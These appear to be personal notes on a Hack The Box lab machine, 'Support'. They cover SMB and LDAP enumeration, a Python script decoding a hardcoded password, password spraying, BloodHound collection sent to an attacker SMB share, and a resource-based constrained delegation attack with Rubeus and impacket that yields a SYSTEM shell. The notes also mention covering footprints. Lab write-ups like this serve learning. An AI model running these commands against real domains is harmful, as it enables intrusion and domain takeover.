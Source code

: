 smbmap -d support.htb0 -H 10.10.11.174 -u " " -p ""
--> returned support-tools as an interesting disk with read only access

smbclient \\\\support.htb0\\support-tools -I 10.10.11.174 -U " " -p ""
--> password for workgroup was guest
$5a280d0b-9fd0-4701-8f96-82e2f1ea9dfb ??



<assemblyIdentity name="System.Runtime.CompilerServices.Unsafe" publicKeyToken="b03f5f7f11d50a3a" culture="neutral" />


gobuster dns -d support.htb -t 25 -w ../../tools/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
--> returned nothing


ldapsearch -x -H ldap://10.10.11.174 -s base namingcontexts
--> returned details:
```Bash
dn:
namingcontexts: DC=support,DC=htb
namingcontexts: CN=Configuration,DC=support,DC=htb
namingcontexts: CN=Schema,CN=Configuration,DC=support,DC=htb
namingcontexts: DC=DomainDnsZones,DC=support,DC=htb
namingcontexts: DC=ForestDnsZones,DC=support,DC=htb
```
And this ```ldapsearch -x -H ldap://10.10.11.174 -s base``` returned the following:
```Bash
rootDomainNamingContext: DC=support,DC=htb
ldapServiceName: support.htb:dc$@SUPPORT.HTB
```


`dig srv _ldap._tcp.dc._msdcs.child1.support.htb @10.10.11.174`
--> returned some more information about authority section"
_support.htb.            3600    IN      SOA     dc.support.htb. hostmaster.support.htb. 105 900 600 86400 3600_
--> I had not seen hostmaster.support.htb before..



# Metasploit
scanner/smb/pipe_auditor
--> `Pipes: \netlogon, \lsarpc, \samr`

scanner/smb/smb_lookupsid
-->`PIPE(LSARPC) LOCAL(SUPPORT - 5-21-1677581083-3380853377-188903654) DOMAIN(SUPPORT - 5-21-1677581083-3380853377-188903654)`



I downloaded vscode and ilspy to be able to look through the .exe files, and found a protected one in userinfo.exe:
--> password: _0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E_
(base64 decoded = ������������������ֆՖ������������)
according to the code, it seems to get the password, the string must be base64 decoded and then each character in the byte-value is XOR'd with the value from the ASCII key string (index % length of key)
must be made into a byte and XOR'd with the key-bytes from 'armando'


using python:
```Python
pwd = b"0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"
import base64
arr = base64.b64decode(pwd)
arr2 = []
for i in range(len(arr)):
	arr2.append(chr(arr[i] ^ key[i % len(key)] ^ 223)) #0xDF is 223 in decimal
for i in arr2:
	decrypted += ''.join(i)
print(decrypted) #nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

I am proceeding to use this with ldapsearch


using the information from the userinfo.exe file, I proceeded with an ldapsearch:
`ldapsearch -x -b 'dc=support,dc=htb' -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -D support\\ldap` which returned ALOT of information

there were alot of users, but seems there is a smaller cn called Users, so I tried this
--> last two users were Administrator and Guest

Admin objectGUID = ltGa4T+PO0uTHnjAEEcLlw==
Guest objectGUID = lHQIHI+KY06QsghOU1eULw==


grepping for info from full search I found:
info: Ironside47pleasure40Watchful
--> whih looks like a password

`sed -n 5094p fullLDAPsearch`

now I can enumerate for users!
--> using crackmapexec:

`crackmapexec ldap 10.10.11.174 -u ../../tools/SecLists/Usernames/top-usernames-shortlist.txt -p 'Ironside47pleasure40Watchful'` returned there is a windows 10.0 Build 20348 x64
so I try to enumerate further using winrm:
`crackmapexec winrm 10.10.11.174 -u ../../tools/SecLists/Usernames/top-usernames-shortlist.txt -p 'Ironside47pleasure40Watchful'`
got a 'match' for http://10.10.11.174:5985/wsman --> deadend, so I retried with another user text file

crackmapexec winrm 10.10.11.174 -u ../../tools/SecLists/Usernames/usernames.txt -p 'Ironside47pleasure40Watchful'
--> [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)


(
1. create account
2. get sid of ^
3. get ticket (rubeus or impacket) 
4. use ticket to connect using wmiexec
)









#########################################3

foothold:
PowerView:
- clone the repositry from git + transfer to evil-winrm instance
- `import-module .\powerview.ps1` + `Get-DomainPolicy`
--> objectsid                     : S-1-5-21-1677581083-3380853377-188903654-1000

BloodHound:
- clone sharphound.ps1 from git + upload to instance
- `import-module .\sharphound.ps1` + `invoke-bloodhound -collectionmethod all -domain support.htb -ldapuser support -ldappass Ironside47pleasure40Watchful` 
--> resulted in a zip file and a .bin file (see sc)
I proceeded to download smbserver.py and executed the following:
Kali 1. `python smbserver.py share ../HTB/Support/ -smb2support -username df -password df`
Win 2. `copy 20220911092256_BloodHound.zip \\10.10.14.119\share`
3. `copy YzgyNDA2MjMtMDk1ZC00MGYxLTk3ZjUtMmYzM2MzYzVlOWFi.bin \\10.10.14.119\share`
4. `net use /d \\10.10.14.119\share`
Setting up bloodhound to analyse created files:
1. `sudo neo4j console`
--> log in on http://127.0.0.1:7474 with neo4j:neo4j --> pwd changed to n304l!f3
--> from the bloodhound graph I gather that the current support.htb user is part of the users@support.htb group which is part of the admins@support.htb domain (?)


GenericWrite:
(import powerview and powermad)
1. `New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)`
2. `Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid`
--> S-1-5-21-1677581083-3380853377-188903654-5101
3. `Set-ADComputer DC -PrincipalsAllowedToDelegateToAccount attackersystem$`
4. `Get-ADComputer DC -Properties PrincipalsAllowedToDelegateToAccount`
--> check it worked
5. `$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid`
6. `$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"`
7. `$SDBytes = New-Object byte[] ($SD.BinaryLength)`
8. `$SD.GetBinaryForm($SDBytes, 0)`
9. `Get-DomainComputer DC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
`
10. `Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity'`
11. `.\rubeus.exe hash /password:Summer2018! /user:attackersystem$ /domain:support.htb`

12. `.\rubeus.exe s4u /user:attackersystem$ /aes256:7B51E11634B9927104CA3B97E4F4AD49D8C110D1F9C25E3AE61C1A7F86DE0A8F /aes128:91E231CCCD3EBC4315ECC17371865544 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:http/dc.support.htb /domain:support.htb /ptt`
--> returned keys (image)
I tried following [this](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation) method to a T, but it did not work.

I found another method using getST.py and smbexec.py:
1. `python getST.py support.htb/attackersystem -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey 7B51E11634B9927104CA3B97E4F4AD49D8C110D1F9C25E3AE61C1A7F86DE0A8F`
--> I had to make sure to have added both _support.htb_ and _dc.support.htb_ to the /etc/hosts file
2. `export KRB5CCNAME=administrator.ccache`
3. `python /opt/impacket/examples/smbexec.py support.htb/administrator@dc.support.htb -no-pass -k`
--> this got me a _nt authority\system_ shell


Finally, I made sure to remove all files and delete the user to cover my foorprints.








